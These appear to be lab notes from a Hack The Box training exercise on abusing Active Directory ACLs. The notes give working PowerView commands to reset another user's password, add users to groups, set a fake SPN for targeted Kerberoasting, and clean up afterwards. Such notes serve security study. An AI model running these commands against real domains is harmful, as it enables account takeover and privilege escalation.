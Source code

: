 
## <span style="color:yellow">Abusing ACLs</span>

#### Creating a PSCredential Object

```powershell
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\htb> $creds = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

#### Creating a SecureString Object

```powershell
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

#### Changing the User's Password

```powershell
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```

#### Add user to group

```powershell
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName # List users

PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose # Add Users To Group
```

## Targeted Kerberoasting

#### 1. Create Fake SPN
#### 2. Obtain TGS
#### 3. Crack TGS offline

#### Creating a Fake SPN

```powershell
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

#### Removing user from Group

```powershell
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Remove-DomainGroupMember] Removing member 'damundsen' from group 'Help Desk Level 1'
True
```

